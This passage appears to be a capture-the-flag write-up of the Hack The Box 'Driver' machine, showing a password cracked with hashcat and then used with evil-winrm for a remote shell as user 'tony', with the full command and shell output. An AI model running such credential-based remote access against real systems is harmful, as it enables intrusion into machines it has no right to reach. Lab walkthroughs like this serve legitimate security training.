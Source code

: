 ![](/assets/images/writeups/driver/5.png)

Afterwards, we managed to crack the password utilizing `hashcat`.

# SHELL AS TONY

We discovered that port `5985` was running the `winrm` service, and we had obtained credentials for a user named `tony`.

Knowing that if `tony` had membership in the `Remote Management Group`, we could leverage `evil-winrm` to establish a shell as `tony`.

```
┌──(kali㉿kali)-[~/Documents/ctf/htb/driver]
└─$ evil-winrm -i 10.10.11.106 -u 'tony' -p 'liltony'
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\tony\Documents> 
```

Our attempt was successful, and we obtained a shell as `tony`.
